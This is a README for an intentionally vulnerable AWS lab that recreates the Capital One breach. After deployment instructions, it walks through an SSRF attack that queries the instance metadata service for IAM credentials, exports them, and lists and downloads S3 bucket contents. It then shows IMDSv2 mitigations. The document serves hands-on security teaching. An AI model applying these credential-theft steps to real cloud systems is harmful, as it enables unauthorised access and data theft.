


# caponeme

***caponeme*** is a vulnerable cloud environment that meant to mock Capital One Breach for educational purposes

[](https://github.com/avishayil/caponeme/actions/workflows/ci.yml)

> Built with the [AWS CDK v2](https://docs.aws.amazon.com/cdk/v2/guide/home.html) (Python). This project intentionally provisions an insecure, SSRF-exploitable environment for hands-on learning; the misconfigurations are the point. See the Disclaimer below.

## Disclaimer

This CloudFormation template is **NOT** intended for deployment in a production account / environment. It is an example for a vulnerable web application that allows AWS credentials being compromised. Please use this with **CAUTION** and consider using new AWS account for this kind of experiment.

## What is Capital One Breach?

[Click here to find out](https://www.capitalone.com/facts2019/)

## Getting Started

- Make sure you have the latest version of `awscli` installed on your terminal.
- Install [Node.js](https://nodejs.org/) 20+ and the AWS CDK v2 CLI: `npm i -g aws-cdk`.
- Install Python 3.9+ (3.12 recommended).
- This template can run on any region, assuming that the LAMP AMI's are correct from the CDK lookup.

### Local setup

```bash
python3 -m venv .venv
source .venv/bin/activate      # Windows: .venv\Scripts\activate.bat
pip install -e .
pip install pytest
```

Run the tests (they lock in the intentionally-vulnerable resources):

```bash
pytest tests/
```

### Deployment

You deploy the stack directly with the CDK v2 CLI (no pre-built release
artifacts are published anymore).

```bash
export CDK_DEFAULT_ACCOUNT=<your-account-id>
export CDK_DEFAULT_REGION=<your-region>

# One-time per account/region:
cdk bootstrap

cdk deploy \
  --parameters SSRFSGAllowedIP=<your-public-ip> \
  --parameters SSRFInstanceKP=<your-ec2-key-pair-name>
```

Prefer CloudFormation directly? Generate the template with
`cdk synth --context SSRFSGAllowedIP=<ip> --context SSRFInstanceKP=<key>` and
upload the resulting file from `cdk.out/` in the AWS Console.

- Allow the template to create IAM resources on your behalf and create the stack.
- Take note of the S3 Bucket name from the CloudFormation Template Outputs, navigate to this bucket and upload some text files inside
- Click on the `SSRFWebURL` URL from the CloudFormation Template Outputs, it will redirect you to the vulnerable web application.

*This is the page you should expect to see:*


### Discovering the contents of the S3 Bucket

- On the web application, type the following to get the IAM role name: http://169.254.169.254/latest/meta-data/iam/security-credentials
- Using the IAM role name you got on the previous step, discover the AWS credentials http://169.254.169.254/latest/meta-data/iam/security-credentials/[IAMRoleName]
- You'll get something like:
  ````
  { "Code" : "Success", "LastUpdated" : "2019-12-22T21:42:57Z", "Type" : "AWS-HMAC", "AccessKeyId" : "<REDACTED-ACCESS-KEY-ID>", "SecretAccessKey" : "<REDACTED-SECRET-ACCESS-KEY>", "Token" : "<REDACTED-SESSION-TOKEN>", "Expiration" : "2019-12-23T04:17:43Z" }
  ````

- If using Linux, type the following on your terminal to impersonate the IAM role
  ````
  export AWS_ACCESS_KEY_ID="<AccessKeyId>"
  export AWS_SECRET_ACCESS_KEY="<SecretAccessKey>"
  export AWS_SESSION_TOKEN="<Token>"
  ````

- If using Windows, type the following on your terminal to impersonate the IAM role
  ````
  set AWS_ACCESS_KEY_ID=<AccessKeyId>
  set AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
  set AWS_SESSION_TOKEN=<Token>
  ````
  *Note: Do not include quotes when setting Windows env variables.*

- If it doesn't work on Windows, you can also modify the AWS credential file at `C:\Users\[username]\.aws\credentials`, as shown on the below capture:

  

- Now, you can see all the objects inside this bucket with `aws s3api list-objects --bucket <YOUR-S3-BUCKET>`
- Then, you can download the bucket objects using `aws s3api get-object --bucket <YOUR-S3-BUCKET> --key <YOUR-S3-OBJECT> demo.txt`

### Mitigation

#### Mitigation #1 - Enable Security Token on Metadata Service

- From a privileged shell session on your AWS account (not the hacked session), type the following command to enable security token on metadata server of the instance:

  ````
  aws ec2 modify-instance-metadata-options --instance-id <INSTANCE-ID> --http-endpoint enabled --http-token required
  ````
- Using your web browser, switch to the vulnerable web application and repeat [these steps](#discovering-the-contents-of-the-s3-bucket). What happens?

- Roll back by running the following command:
  ````
  aws ec2 modify-instance-metadata-options --instance-id <INSTANCE-ID> --http-endpoint enabled --http-token optional
  ````

#### Mitigation #2 - Limit Role Access Credentials to Instance Metadata Service V2

- Go to the IAM role attached to the EC2 Instance, by locating the instance, then pressing on the entity written on `IAM role`. Press on `Attach inline policy`, then apply the following policy:

  ````
  {
      "Version": "2012-10-17",
      "Statement": [
          {
              "Sid": "RequireImdsV2",
              "Effect": "Deny",
              "Action": "*",
              "Resource": "*",
              "Condition": {
                  "StringNotEquals": {
                      "ec2:MetadataHttpTokens": "required"
                  }
              }
          }
      ]
  }
  ````
- Call the policy `IMDSv2InlinePolicy`, press `Review policy` and then `Create policy`.
- Try to run the `list-objects` or `get-object` from the "hacked" shell again. What happens?

### Cleanup

- Empty the S3 Bucket
- Delete the CloudFormation stack (won't work if you haven't cleared the bucket from objects)

## Todo

 - You tell me?

## Credits

- We're using some tech to make this work:

  * [Giraffe](https://github.com/osirislab/Giraffe) - Vulnerable web application
  * [Bitnami LAMP Stack](https://bitnami.com/stack/lamp) - AMI using to quickly provision the EC2 Instance

- Thanks to [@Kharkovlanok](https://github.com/Kharkovlanok) for the multi-region support contribution.

License
----

MIT
